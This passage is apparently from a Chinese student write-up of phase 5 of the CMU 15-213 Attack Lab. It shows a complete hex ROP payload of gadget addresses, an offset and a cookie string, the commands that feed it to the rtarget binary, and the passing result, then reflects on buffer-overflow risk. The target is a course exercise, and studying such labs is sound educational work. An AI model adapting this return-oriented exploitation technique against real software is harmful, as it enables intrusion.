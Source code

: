 ```txt
d6 19 40 00 00 00 00 00 a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61
00 ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
```
其中全0的八个字节应该是我们需要的偏移量，现在我们来计算一下这个偏移量到底是多少,注意我标注为rsp那一个位置，哪一行的地址是将%rsp的值送到％rax,而我们字符串存放的位置在这一行地址之后还要0x20个字节，于是我们考虑偏移量为0x20
```txt
ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff ab 19 40 00 00 00 00 00
20 00 00 00 00 00 00 00 dd 19 40 00 00 00 00 00
34 1a 40 00 00 00 00 00 13 1a 40 00 00 00 00 00
06 1a 40 00 00 00 00 00 a2 19 40 00 00 00 00 00
d6 19 40 00 00 00 00 00 a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61
00 ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
```
测试，成功pass!
```common
➜  target1 ./hex2raw <phase_5.txt >phase_5-raw.txt
➜  target1 ./rtarget -q <phase_5-raw.txt
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:3:FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF AB 19 40 00 00 00 00 00 20 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00 FF FF FF FF FF FF FF
```
#### 总结
ROP相对于CI来说难上了不少，主要难度在于我们可以使用的命令的种类被限定死了，只能通过现有的代码想办法去拼凑出我们想实现的结果，往往为了将一个值送到某个寄存器，我们需要经过很多次mov操作才能实现，其实一开始走了弯路，如果将start_farm到end_farm之间所有提供的操作都列出的话，进行相关的设计就简单上不少。总的来说ROP这一部分的实验也让我看到了缓冲区溢出攻击的威力，明白了为什么类似于gets这样的函数在后来的改进版本中都需要限定输入长度的原因。
